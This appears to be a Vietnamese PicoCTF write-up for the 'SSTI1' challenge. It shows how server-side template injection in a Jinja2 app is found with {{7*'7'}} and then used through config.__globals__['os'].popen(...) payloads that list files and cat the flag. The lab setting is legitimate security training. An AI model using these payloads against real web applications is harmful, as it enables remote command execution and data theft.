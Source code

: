 # SSTI1
![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image257.png?raw=true)

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image258.png?raw=true)

Truy cập website:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image259.png?raw=true)

Dựa vào tên thử thách: `SSTI`, tôi nghĩ rằng có thể liên quan đến lỗ hổng `Server-side Template Injection`, tôi thử nhập `{{7*'7'}}` vào box: 

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image260.png?raw=true)

Click `OK`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image261.png?raw=true)

=> Có vẻ website có thể dính lỗ hổng `SSTI`, đồng thời có thể suy ra website sử dụng template `Jinja2 (Python Flask/Django)`. 

Tìm kiếm payload trên mạng:

    {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

Payload trên sẽ liệt kê các file hiện có:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image262.png?raw=true)

Tiếp tục thử payload sau để kiểm tra định dạng file `flag`:

    {{config.__class__.__init__.__globals__['os'].popen('file flag').read()}}

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image263.png?raw=true)

=> Đọc nội dung file này:

    {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image264.png?raw=true)

